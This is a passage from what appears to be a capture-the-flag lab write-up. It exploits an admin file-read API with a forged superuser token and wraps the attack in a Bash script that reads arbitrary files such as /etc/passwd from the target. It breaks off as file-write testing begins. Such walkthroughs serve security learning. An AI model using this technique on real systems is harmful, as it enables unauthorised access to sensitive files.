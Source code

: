     oxdf@hacky$ curl -s http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM' | jq -r '.file'
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...[snip]...



Putting this all together, I'll write a simple Bash script that will
read a file passed as an argument:



    #!/bin/bash

    TOKEN=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM
    FN=$(echo -n $1 | base64 | tr '/+' '_-' | tr -d '=')

    curl -s "http://10.10.11.162/api/v1/admin/file/$FN" -H "Authorization: Bearer $TOKEN" | jq -r '.file'



It works:



    oxdf@hacky$ ./get_file.sh /etc/lsb-release
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=20.04
    DISTRIB_CODENAME=focal
    DISTRIB_DESCRIPTION="Ubuntu 20.04.4 LTS"



#### Write File

To test this one, I'll try to write to a file location any user should
have write, `/tmp/0xdf`, which url-encodes to "L3RtcC8weGRm".

Sending that reports an error:
